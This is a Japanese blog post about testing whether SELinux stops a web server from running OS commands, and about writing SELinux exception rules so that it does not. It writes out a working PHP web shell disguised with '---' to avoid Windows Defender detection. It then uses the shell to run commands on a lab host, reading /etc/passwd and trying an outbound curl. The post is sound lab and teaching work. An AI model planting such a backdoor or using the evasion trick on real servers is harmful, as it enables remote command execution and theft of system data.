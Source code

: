 ```yaml
---
layout:        post
title:         "SELinuxによるWebのOSコマンド実行拒否と例外ルール作成"
menutitle:     "[SELinux] SELinuxによるWebのOSコマンド実行拒否と例外ルール作成"
date:          2021-10-20
category:      Linux
cover:         /assets/cover1.jpg
redirect_from:
comments:      true
published:     true
latex:         false
photoswipe:    false
syntaxhighlight: true
# sitemap: false
# feed:    false
---
```


SELinuxが有効化されている環境でバックドアが期待通りに動作するかを検証しました。
また、バックドアが動くように例外ルールをSELinuxに追加する方法も説明します。

SELinux (Security-Enhanced Linux) は、Linux カーネルにおける MAC の実装です。
プロセスがファイルやディレクトリにアクセス (Read/Write/Exec) するとき、まずはユーザとグループに基づいて制御する任意アクセス制御 (DAC; Discretionary Access Control) をチェックし、その後に**強制アクセス制御** (**MAC**; Mandatory Access Control) をチェックします。DACとMACの両方で許可された場合のみ、アクセスが許可されます。
DACルールでアクセス拒否した場合は、MACルールは使用されません。

### SELinux環境下のPHPバックドア

まず、サーバ側にバックドアを設置します。
注意ですが、以下のコマンドを入力するときは内容から `---` を取り除いてください（Windows DefenderによるTrojan検知を防ぐために入れてます）。
~~~bash
cat <<EOS > /var/www/html/backdoor.php
<?---php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
EOS
~~~

httpdが起動していて、FWで80番ポートが開いていることを確認したら、バックドア経由でコマンドを実行させます。
ブラウザでアクセスしても良いですが、今回はPowerShellを使ってcurlでアクセスします。

~~~powershell
PS> (curl http://192.168.56.102/backdoor.php?cmd=pwd).Content
<pre>/var/www/html
</pre>

PS> (curl http://192.168.56.102/backdoor.php?cmd=cat+/etc/passwd).Content
<pre>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
...(省略)...

PS> (curl http://192.168.56.102/backdoor.php?cmd=curl+example.com).Content
<pre></pre>
~~~
